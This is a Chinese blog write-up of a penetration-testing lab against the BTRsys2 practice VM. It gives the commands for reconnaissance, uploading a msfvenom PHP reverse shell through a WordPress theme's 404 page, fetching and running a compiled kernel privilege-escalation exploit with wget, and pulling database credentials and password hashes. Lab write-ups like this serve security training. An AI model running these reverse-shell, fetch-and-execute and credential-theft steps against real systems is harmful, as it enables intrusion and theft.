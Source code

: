 ```yaml
---
title: 【网络安全0x11】综合测试（高难度）--- BTRsys2
date: 2020-06-26 18:35:08
tags: [网络安全, metasploit]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘web服务找到后台地址，弱口令直接登录后台，修改主题404页面上传反弹shell，执行反弹shell获得低权用户shell，提权有两种方式，一种是查看网站配置文件找到mysql数据库，里面存着密码，可以root，另外一种是searchsploit系统版本，执行本地提权脚本返回root权限，本文两种方式均有展示。

本篇使用工具nmap，dirb，nikto，metasploit。

<!-- more -->

# 使用命令

## metasploit

``` bash
#生成shell
msfvenom -p php/meterpreter/reverse_tcp lhost=攻击机IP lport=攻击机端口 -f raw > shell.php

#开启监听
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机端口
>run
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个`80`口的web服务，`dirb`挖掘`80`端口web信息，找到后台登录界面：

``` bash
nmap -sV 192.168.1.104
nmap -T4 -A -v 192.168.1.104
dirb http://192.168.1.104 
nikto -host 192.168.1.104 
```

![](./1068/1.PNG)

2. 弱口令直接登上去了，修改主题404页面为反弹shell：

``` bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.106 lport=4444 -f raw > shell.php && cat shell.php
```

![](./1068/2.PNG)

3. metasploit开启监听，访问404页面，得到低权shell，sysinfo查看系统版本：

![](./1068/3.PNG)

4. 本地搜索可利用提权漏洞：

``` bash
meterpreter > sysinfo

searchsploit Linux 4.4.0
```

![](./1068/4.PNG)

5. 复制并编译提权脚本到apache根目录下，开启apache2服务：

``` bash
cp /usr/share/exploitdb/exploits/linux/local/44298.c /var/www/html/shell.c
gcc /var/www/html/shell.c -o /var/www/html/shell
service apache2 start
```

![](./1068/5.PNG)

6. 靶机上wget下来，添加执行权限，执行获得root权限：

``` bash
cd /tmp
wget -O shell http://192.168.1.106/shell
chmod 777 shell
./shell
```

![](./1068/6.PNG)

7. 提权shell的上传除了靶机wget也可以在meterpreter里upload：

``` bash
meterpreter > upload /var/www/html/shell
meterpreter > shell

chmod 777 shell
./shell
```

![](./1068/7.PNG)

8. 除了系统版本漏洞提权，还可以猜数据库（滑稽），查看`/var/www/html/wordpress/wp-config.php`得到mysql数据库口令和密码：

![](./1068/8.PNG)

9. 查看表：

``` bash
mysql -h localhost -u root -p -D wordpress -e 'show tables;':
Enter password: rootpassword!
```

![](./1068/9.PNG)

10. 查看`wp_users`表中数据，找到md5加密的密码：

``` bash
mysql -h localhost -u root -p -D wordpress -e 'select * from wp_users':
Enter password: rootpassword!
```

![](./1068/10.PNG)

11. 百度解密得到明文`roottoor`，因为靶机没有python模拟不出来`sh/bash`，因此`su`命令不能用，直接攻击机本地ssh连接登录得到root权限：

``` bash
ssh root@192.168.1.104
root@192.168.1.104's password: roottoor
```

![](./1068/11.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)